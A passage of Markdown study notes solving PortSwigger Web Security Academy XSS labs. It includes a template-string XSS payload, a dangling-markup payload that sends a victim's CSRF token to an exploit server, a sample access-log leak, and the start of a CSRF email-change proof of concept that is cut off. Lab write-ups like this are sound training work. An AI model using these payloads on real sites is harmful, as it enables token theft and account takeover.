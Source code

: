 ```ad-done
title: Solution
1. Submit a random alphanumeric string in the search box, then use Burp Suite to intercept the search request and send it to Burp Repeater.
2. Observe that the random string has been reflected inside a JavaScript template string.
3. Replace your input with the following payload to execute JavaScript inside the template string:
~~~js
${alert(1)}
~~~
5. Verify the technique worked by right clicking, selecting "Copy URL", and pasting the URL in your browser. When you load the page it should trigger an alert.
```

## Reflected XSS protected by CSP, with dangling markup attack
Reference: https://portswigger.net/web-security/cross-site-scripting/content-security-policy/lab-csp-with-dangling-markup-attack

```ad-done
title: Solution
1. Log in to the lab using the account provided above.
2. Examine the Update email function. Observe that there is an XSS vulnerability in the [[email]] parameter.
3. Go to the exploit server and paste the following template into the Body field, substituting the placeholder URLs with your own lab ID and exploit server ID:
~~~html
<body>
<script>
let form = document.createElement('form');
form.action='https://YOUR-LAB-ID.web-security-academy.net/my-account';
let input = document.createElement('input');
input.name = 'email';
input.value = '"><table background=\'//YOUR-EXPLOIT-SERVER-ID.web-security-academy.net?';
form.append(input);
document.body.appendChild(form);
form.submit()
</script>
</body>
~~~
4. Click Store and then Deliver exploit to victim. If the victim's browser runs this script while they are still logged in to the lab website, their browser will send a request to the exploit server containing their CSRF token in the query string.
5. Click Access log. You should see an HTTP interaction that was initiated by the application. This will look something like:
~~~http
GET /exploit?%22%3E%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cinput%20required%20type=%22hidden%22%20name=%22csrf%22%20value=%22jOBONqhb2sgP2zCGMhKC3rb91j1TAlWX%22%3E%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cbutton%20class= HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36".
~~~
6. URL decode the query string and note the CSRF token.
7. Go back to the exploit server. Replace the contents of the Body field with the following CSRF PoC, substituting ``YOUR-LAB-ID`` with the ID of your lab, and ``STOLEN-CSRF-TOKEN`` for the CSRF token you copied from the access log:
~~~html
<body>
<script>
let form = document.createElement('form');
form.action='https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email';
form.method='post';
let input = document.createElement('input');
input.name = 'email';
input.value = 'hacker@evil-user.net';
let csrf = document.createElement('input');
```